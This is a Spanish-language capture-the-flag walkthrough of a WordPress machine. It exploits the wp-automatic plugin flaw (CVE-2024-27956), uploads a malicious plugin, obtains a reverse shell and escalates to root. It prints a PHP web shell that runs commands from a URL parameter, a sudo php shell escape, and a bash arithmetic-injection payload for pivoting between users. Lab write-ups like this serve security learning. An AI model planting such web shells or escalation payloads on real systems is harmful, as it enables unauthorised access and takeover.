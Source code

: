 - Tags: #sqli #wordpress #PluguinWordPress #PHP 
_____
empezamos escaneando la dirección ip con nmap para ver que nos encontramos.

tenemos el puerto 80 abierto, procedemos a escanear el puerto con nmap para conocer el servicio y version que corre por el mismo.
_____
![](attachment/8947fba94a0b0322489c32b545328f24.png)
_____
tenemos una web que parece ser una academia, por lo que utilizando wappalyzer podremos ver que tenemos en la web.
____
![](attachment/c49d4231f30ff47825de7a22ce510837.png)
____
tenemos un wordpress pero listando los plugins instalados no encontramos un vector de taque solido. 

investigando por el código fuente podemos encontrar un posible usuario.
_____
![](attachment/c083915100109b98c54e39599fe9260f.png)
____
por lo que ahora solo nos falta una credencial, pero adelanto que no llegaremos a nada por esta vía.

investigando la pagina encontramos lo siguiente.
_____
![](attachment/934d05160db7b549d193a6bc1dfdd94f.png)
_______
tenemos wp-automatic y una versión, por lo que si investigamos veremos que esa versión está sujeta a una vulnerabilidad en la base de datos, donde nos permite crear un usuario y ademas otorgarle permisos de administrador, de esa forma nos podremos conectar por el panel de login con el usuario recién creado.

la vulnerabilidad es la siguiente: CVE-2024-27956

si buscamos en la web encontraremos exploits automatizados para lograr explotar esta vulnerabilidad. 
_____
![](attachment/49e01a70537721000d609c4be09c480d.png)
_______
tenemos credenciales confirmadas, con esas nuevas credenciales podremos ingresar por el panel de login.
_____
![](attachment/5df060e2058c039e61f09a542c35876a.png)
_____
estamos en el panel de administrador del wordpress y podemos subir plugin por lo que el siguiente paso sera crear un plugin malicioso, subir y activarlo.

para esto nos ayudaremos también de un exploit automatizado que utiliza msfvenom para crear el plugin.

una vez creado el plugin lo subimos, lo activamos y nos colocamos a la escucha con netcat para después dirigirnos a la ruta donde se aloja el plugin y de esa forma deberíamos de ganar acceso a la maquina.
______
![](attachment/6f8462cc0d91134854bcdb43700f4967.png)
_______
![](attachment/0c1201b073a312b0c7198d659d7d7017.png)
______
activamos el plugin
_____
![](attachment/8676d12c11a24c3a47efaaaadc48ea74.png)
_____
el plugin creo un archivo malicioso php que nos permite ejecutar comandos desde la URL 
_____
![](attachment/fc58cee5922faab6c50b3a1371c123c0.png)
_____
el archivo php malicioso dede tener la siguiente estructura.

```php
<?php
	system($_GET['cmd']);
?>
```

esto es lo que nos permite ejecutar los comandos.

ahora enviemos una reverse shell para conectarnos a la maquina.
____
![](attachment/f500c06081973fcbe9e9e25931eec710.png)
___
estamos dentro, aplicamos el tratamiento de la tty y posteriormente aplicaremos reconocimiento del sistema para buscar vectores para la escalada de privilegios.
____
![](attachment/64faf40204ef1a7004ab75555ede2a63.png)
______
tenemos que podemos ejecutar php como el usuario pylon sin proporcionar contraseña.

por lo que escalaremos privilegios de la siguiente forma.

```php
sudo -u pylon php -r "system('/bin/bash');"
```

______
![](attachment/d1b60360840fe550a947c88fe3d2d4bb.png)
_____
somos el usuario pylon, pero si ejecutamos el comando sudo -l nuevamente veremos lo siguiente.
____
![](attachment/057c70c2d668ef36f41d93c0ce4f5193.png)
_____
acá usaremos una técnica explicada por mario en su canal de youtube para pivotar al usuario mario
_____
![](attachment/a97c14ba0483b4d5661929e41292a17d.png)
______
```bash
a[$(bash  >&2)]+1
```

de esta forma pivotamos a mario, por lo que aplicamos nuevamente el comando sudo -l y vemos lo siguiente.
______
![](attachment/e1b4fcd9c542809a9f7f6a6f322882be.png)
______
para obtener root haremos el mismo proceso que hicimos para pivotar al usuario mario.
______
![](attachment/53d56d7d0844d6559c831dd8985e0208.png)
_____
logramos el root.